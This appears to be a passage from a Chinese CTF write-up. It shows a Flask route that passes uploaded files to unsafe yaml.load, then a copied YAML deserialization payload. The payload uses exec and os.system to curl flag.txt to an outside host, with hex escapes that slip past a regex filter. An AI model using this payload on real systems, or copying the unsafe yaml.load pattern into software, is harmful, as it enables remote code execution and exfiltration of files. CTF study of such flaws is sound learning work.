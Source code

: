 ```python

@app.route("/view")
def view():
    dirname = md5(request.remote_addr.encode()).hexdigest()
    realpath = os.path.join(app.config['UPLOAD_FOLDER'], dirname,session['filename']).replace('..','')
    if session['priviledge'] =='elite' and os.path.isfile(realpath):
        try:
            with open(realpath,'rb') as f:
                data = f.read()
                if not re.fullmatch(b"^[ -\-/-\]a-}\n\r]*$",data, flags=re.MULTILINE):
                    info = {'user': 'elite-user'}
                    flash('Sth weird...')
                else:
                    info = yaml.load(data)
                if info['user'] == 'Administrator':
                    flash('Welcome admin!')
                else:
                    raise ()
        except :
            info = {'user': 'elite-user'}
    else:
        info = {'user': 'guest'}
    return render_template_string("{{user}}",user=info['user'])
#.,^,_,`,~


if __name__ == "__main__":
    app.run('0.0.0.0',port=8888,threaded=True)

```



有了secret我们就可以任意伪造session了

注意到：`info = yaml.load(data)`

直接使用这个会有个提醒

![image-20201122221248364](https://raw.githubusercontent.com/Explorersss/photo/master/20201122221248.png)

百度一下为啥不安全，yaml反序列化注入get



直接抄来一个exp

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x5f\x5fimport\x5f\x5f('os')\x2esystem('curl -POST mil1\x2eml/jm9 -F x=@flag\x2etxt')"
```

